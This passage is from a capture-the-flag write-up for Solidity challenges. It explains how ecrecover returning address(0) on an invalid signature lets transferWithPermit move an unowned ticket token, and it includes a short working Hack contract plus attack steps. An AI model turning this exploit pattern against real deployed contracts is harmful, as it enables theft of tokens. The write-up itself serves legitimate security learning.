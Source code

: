 > Not familiar with digital signatures? r, s, v seems confusing? Highly suggest reading [this](https://github.com/ethereumbook/ethereumbook/blob/develop/06transactions.asciidoc#digital-signatures)

After some research, I found that in case of an invalid signature, it does not revert or return a false boolean, but **it returns the address zero**. <br>
So, if we call the function passing `from` as `address(0)` and whatever other information, this check `require(signer == from, "Ticket: invalid permit");` will pass and the `_transfer` function will be called passing the following arguments: `_transfer(address(zero), to, tokenId)`. Do you remember? The `_transfer` doesn't check that `from != address(0)`. 
#### Attack workflow
1. Call the  `transferWithPermit` passing `address(0)` as `from` argument, `our address` as `to` argument, and `1` as `tokenId`: `transferWithPermit(address(0), OUR_ADDRESS,1,block.timestamp,3,bytes32(uint(3233)), bytes32(uint(555)))`
2. The `transferWithPermit` will call the internal function `_transfer` passing the following arguments: `_transfer(address(0), OUR_ADDRESS, 1)`
3. The check of ` require(ownerOf(tokenId) == from, "Ticket: transfer of token that is not own")` will pass because no one owns the tokenId 1
4. The token gets assigned to us via the following instruction: `_owners[tokenId] = to`. We got the ticket!
After that, we call `takeRide` passing the tokenId we stole.
#### Hack contract
```solidity
contract Hack {
    ChairLift target;
    constructor(ChairLift _target) {
        target = _target;
    }

    function hack() external {
        Ticket tr = target.ticket();
        tr.transferWithPermit(address(0), address(this),1,block.timestamp,3,bytes32(uint(3233)), bytes32(uint(555)));
        target.takeRide(1);
    }
}
```
**What to take from the challenge**: `ecrecover` returns address(0) if the signature is invalid. Always check the values of `from` and `to`
[Hack Contract](./src/ChairLift/ChairLift.sol) | [Solve test](./test/ChairLiftTest.t.sol) | [Solve script](./scripts/ChairLift.sh)

## 04 - Council Of Apes
**Vulnerability presented in the challenge**: **Flash Loan** attack<br>

> To solve the challenge, we need to understand the codebase and build a logical flow of transactions. Getting familiar with **Flash Loan Attacks** will help solving the challenge quickly. The attack workflow can be understood on the [Hack](./src/CouncilOfApes/IcyExchange.sol) contract directly.
[Hack contract](./src/CouncilOfApes//IcyExchange.sol) | [Solve test](./test/CouncilOfApesTest.t.sol) | [Solve script](./scripts/CouncilOfApes.sh)